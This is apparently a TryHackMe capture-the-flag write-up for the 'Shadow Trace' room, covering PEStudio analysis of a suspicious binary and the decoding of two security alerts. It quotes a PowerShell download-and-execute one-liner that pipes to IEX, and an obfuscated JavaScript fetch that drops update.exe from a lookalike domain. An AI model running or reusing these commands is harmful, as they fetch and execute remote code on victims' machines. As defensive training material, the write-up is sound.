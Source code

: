 ```yaml
---
title: "TryHackMe: Shadow Trace Writeup - Easy"
date: 2025-10-11 23:32:00 +0300
tags: [tryhackme, analysis, javascript, powershell, binary]
categories: [TryHackMe]
image:
  path: /assets/images/2025-10-11-thm-shadowtrace/cover.png
---
```


## Overview
**Shadow Trace** is a relatively simple room that starts with analyzing a binary and then moves on to inspecting alerts containing **PowerShell** and **JavaScript** code. Some basic knowledge of these languages is helpful, along with familiar analysis tools.

## Analyzing the Binary
After booting the provided virtual machine, we see a binary called **windows-update.exe** on the desktop. This is the binary we need to analyze. The VM also includes analysis tools in the **DFIR Tools** folder, which is accessible via the desktop shortcut.

### PEStudio
We find **PEStudio** under `DFIR Tools\pestudio`. Launching the app and dragging the binary onto the window we can start the analysis. The first section we see has the answers to questions 1 and 2.

![PEStudio]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss1.png) 

Next, we move on to question 3:  
> Identify the URL within the file to use as an IOC.

We need to locate a URL inside the binary. Unless it’s obfuscated, it should appear in the **strings** section. After scrolling through the strings, we find a lot that looks interesting. While here, we can also gather answers for other questions since they are also in the strings section.

![Strings]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss2.png)

Questions 3 and 4 are in plain sight. However, one string looks like it might be encoded. Let’s verify it with **CyberChef**.

![CyberChef URL Flag Decoded]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss5.png)

CyberChef confirms the string is base64 encoded. Decoding it reveals our flag.

The last question in this section asks:  
> What library related to socket communication is loaded by the binary?

PEStudio’s **libraries** section has this answer. One of the libraries stick out.

![Libraries]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss3.png)

## Analyzing Alerts
Opening the static site, we see two alerts: one triggered by PowerShell and the other by Chrome. First, we examine the PowerShell alert to extract its URL.

```powershell
(new-object system.net.webclient).DownloadString([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("aHR0cHM6Ly90cnloYXRtZS5jb20vZGV2L21haW4uZXhl"))) | IEX;
```

This command creates a `System.Net.WebClient` object, downloads the response from a Base64-encoded URL, and pipes it to `IEX` (Invoke-Expression) to execute the script. Using **CyberChef** to decode the Base64 argument reveals the URL.

![CyberChef PowerShell Flag Decoded]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss6.png)

The remaining questions involve the Chrome alert, which executes JavaScript. Lets prettify the code first to make it easier to read:

```javascript
fetch(
  [
    104, 116, 116, 112, 115, 58, 47, 47, 114, 101, 97, 108, 108, 121, 115, 101,
    99, 117, 114, 101, 117, 112, 100, 97, 116, 101, 46, 116, 114, 121, 104, 97,
    116, 109, 101, 46, 99, 111, 109, 47, 117, 112, 100, 97, 116, 101, 46, 101,
    120, 101,
  ]
    .map((c) => String.fromCharCode(c))
    .join(""),
)
  .then((r) => r.blob())
  .then((b) => {
    const u = URL.createObjectURL(b);
    const a = document.createElement("a");
    a.href = u;
    a.download = "test.txt";
    document.body.appendChild(a);
    a.click();
    a.remove();
    URL.revokeObjectURL(u);
  });
```

The first question is how the URL is decoded. The array of numbers are actually just ASCII characters decimal values, which we can see by the use of `String.fromCharCode()`. With this information we can decode this with **CyberChef** using the "From Decimal" recipe.

![CyberChef JavaScript Flag Decoded]({{ site.baseurl }}/assets/images/2025-10-11-thm-shadowtrace/ss4.png)

Once the URL is obtained, the last step is determining the file name used for download. The script converts the fetched resource into a binary blob, creates a temporary browser-only URL for it, then generates a new `<a>` element with this URL as its `href`. The `download` attribute sets the file name (`test.txt`). The element is appended then clicked to initiate the download.

## Conclusion

This room demonstrates a basic workflow for binary and alert analysis, combining static inspection of binaries with simple PowerShell and JavaScript decoding techniques.
